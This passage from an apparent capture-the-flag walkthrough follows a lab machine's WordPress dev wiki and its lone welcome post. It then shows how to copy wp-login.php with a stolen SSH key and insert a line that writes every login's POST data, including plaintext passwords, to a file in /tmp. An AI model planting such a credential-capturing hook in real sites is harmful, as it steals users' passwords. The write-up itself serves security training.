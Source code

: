 After poking around a bit, I came across what appears to be the only post on the site:

![dev_wiki Post](screenshots/8_dev_wiki_post.PNG)

Here is the text of the post:
```
Welcome!

Hi Florian,

Thought we could use a wiki.  Feel free to log in and have a poke around – but as I’m messing about with a lot of changes I’ll probably be restoring the site from backup fairly frequently!

I’ll be logging in regularly and will email the wider team when I need some more testers 😉
```

It says he will be logging in regularly, so maybe we can capture his password somehow since we have write access to the WordPress site.  Login functions for WordPress are handled in the wp-login.php file.

Let's take a look at wp-login.php (where logins are handled).  I downloaded a copy to my machine using scp:
```bash
scp -i florian_private_key florian@10.10.10.78:/var/www/html/dev_wiki/wp-login.php .
```

If you read through the file, there is a switch statement that controls what happens when specific actions are performed.  One of the actions is called login.  When a user logs in, their password is hashed and the hash is compared to the password hash in the database.  If the hashes match, the user is authenticated.  So if we can dump the contents of the POST request before the hashing happens, we should be able to see the password in plain text.  In PHP, the contents of the POST request are stored in a variable called ```$_POST```.  We can write that to a file using ```put_file_contents```<sup>[3]</sup>.  Around line 848, we can insert the following line:
```php
file_put_contents('/tmp/login.txt', $_POST);
```


[1]: https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing "XML External Entity (XXE) Processing"
[2]: https://www.owasp.org/index.php/Top_10-2017_A4-XML_External_Entities_(XXE) "Top 10-2017 A4-XML External Entities (XXE)"
[3]: http://php.net/manual/en/function.file-put-contents.php "PHP function file_put_contents"
